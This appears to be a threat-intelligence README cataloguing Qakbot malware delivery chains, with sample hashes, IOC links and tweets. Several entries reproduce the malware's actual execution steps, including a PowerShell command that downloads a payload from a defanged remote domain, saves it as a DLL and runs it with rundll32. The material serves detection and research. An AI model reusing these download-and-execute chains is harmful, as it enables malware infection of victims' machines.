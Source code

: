 Samples 👇

https://bazaar.abuse.ch/sample/6c49b4d40b2925a4e5910e4157f7d302acf9203192187d3d1d178c258239f1c3/

https://bazaar.abuse.ch/sample/284f0fabbdfc1172cb1cbf74473321668c4b31789d93158669f6735bec124817/

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB12_01.02.2023.txt

###  .pdf > .zip > .js > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - obama270 - .pdf > .zip > .js > .dll
https://twitter.com/Cryptolaemus1/status/1671528958192496640


#Qakbot - obama270 - .pdf > .zip > .js > .dll

wscript RrwuR.js

powershell -enc $bread = "https://viltare.]com/PlI6qXoN.dat"

md C:\ProgramData\SNWSPinna

iwr $Medio -O C:\ProgramData\SNWSPinna\Pinna.dll

rundll32 C:\ProgramData\SNWSPinna\Pinna.dll

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_obama270_21.06.2023.txt

### url > .zip > .vhd > .lnk > .cmd > .cmd > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB09 - url > .zip > .vhd > .lnk > .cmd > .cmd > .dll
https://twitter.com/pr0xylife/status/1599787375311212544

#Qakbot - BB09 - url > .zip > .vhd > .lnk > .cmd > .cmd > .dll

cmd /c HG.lnk

cmd.exe /q /c pests.cmd

cmd.exe /K dispersers.cmd system rundl

rundll32 erect.tmp,DrawThemeIcon

Samples 👇

https://bazaar.abuse.ch/sample/15c1feb12ecedafc233ebec6e0893ed0294f91ad48da9cc89c571ce3e316980d/

https://bazaar.abuse.ch/sample/c6887e515b36694e8e738c0df7610014e084bcce80ee13c998087471daf039a4/

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_BB09_05.12.2022.txt

### url > .zip > .xlsb > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - bb - url > .zip > .xlsb > .dll
https://twitter.com/pr0xylife/status/1577671455336194049
